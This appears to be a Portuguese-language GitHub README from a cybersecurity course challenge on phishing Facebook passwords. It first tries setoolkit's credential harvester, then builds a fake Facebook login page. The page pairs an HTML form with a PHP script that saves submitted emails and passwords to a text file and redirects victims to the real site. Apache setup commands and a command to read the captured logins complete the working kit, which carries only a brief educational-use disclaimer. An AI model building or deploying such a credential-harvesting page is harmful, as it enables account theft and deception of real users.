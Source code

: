 # cibersecurity-desafio-phishing
Phishing para captura de senhas do Facebook

Ferramentas

Kali Linux

setoolkit

Configurando o Phishing no Kali Linux

Acesso root: sudo su

Iniciando o setoolkit: 

Tipo de ataque: Social-Engineering Attacks

Vetor de ataque: Web Site Attack Vectors

Método de ataque: Credential Harvester Attack Method 

Método de ataque: Site Cloner

Obtendo o endereço da máquina: ifconfig

URL para clone: http://www.facebook.com


![Captura de tela 2025-06-11 091900](https://github.com/user-attachments/assets/5e1a7afe-ff99-41b7-94c6-5abbae6526c0)
ss

sobre a imagem acima

Nesse  caso, não aparece diretamente um "username" ou "password" legível. Isso pode acontecer quando:

O site clonado não usa formulários padrão (como o Facebook, que usa JavaScript avançado e AJAX).

Os dados são enviados em partes criptografadas ou com tokens.

por isso ocorreu o erro.

eu consegui fazer mais de outra forma fazendo uma pagina fake do facebook

#  Página Falsa do Facebook para Captura Simulada de Login

⚠️ **ATENÇÃO**: Este projeto é estritamente para fins educacionais e deve ser utilizado apenas em ambientes controlados e com autorização. **Não utilize este código para fins ilegais ou maliciosos.**

---

## 🎯 Objetivo

Simular uma página de login com aparência semelhante ao Facebook, capturar os dados digitados (e-mail e senha), armazená-los localmente e redirecionar o usuário para o site verdadeiro do Facebook. Projeto voltado para fins de estudo em **cibersegurança e engenharia social**.

---

## 🧰 Tecnologias e Ferramentas Usadas

- Kali Linux (VirtualBox)
- 
- Apache2
- 
- HTML + CSS
- 
- PHP
- 
- Bash (comandos de terminal)

---

## 🛠️ Etapas do Projeto

### 1. Instalação e execução do Apache

```bash
sudo apt update

sudo apt install apache2

sudo systemctl start apache2

sudo systemctl enable apache2

### 2. Verificar se o Apache está rodando

sudo systemctl status apache2

Você deve ver algo como:

Active: active (running)

### 3. Descobrir o IP local da máquina

ip a

Procure uma linha como:

inet 192.168.1.5/24

Esse será o IP para acessar a página falsa:

192.168.1.5

🧩 Arquivos do Projeto

index.html
Página de login falsa com visual semelhante ao Facebook.

<form method="POST" action="process_login.php">
  <input type="text" name="email" placeholder="Email ou telefone" required />
  <input type="password" name="password" placeholder="Senha" required />
  <button type="submit">Entrar</button>
</form>

Salve como:

sudo nano /var/www/html/index.html

process_login.php
Script que recebe os dados do formulário, salva no arquivo logins.txt e redireciona para o Facebook verdadeiro.

<?php
if ($_SERVER["REQUEST_METHOD"] === "POST") {
    $email = $_POST['email'] ?? '';
    $password = $_POST['password'] ?? '';
    file_put_contents("logins.txt", "Email: $email | Senha: $password\n", FILE_APPEND);
    header("Location: https://www.facebook.com");
    exit();
} else {
    echo "Método inválido.";
}
?>

Salve como:

sudo nano /var/www/html/process_login.php

logins.txt
Arquivo onde os dados capturados serão armazenados.

sudo touch /var/www/html/logins.txt
sudo chmod 666 /var/www/html/logins.txt


✅ Teste Final
Acesse: http://192.168.1.5

Preencha e envie o formulário

Verifique se você foi redirecionado para o site real

Veja os dados capturados:

cat /var/www/html/logins.txt

## Exemplo de Captura


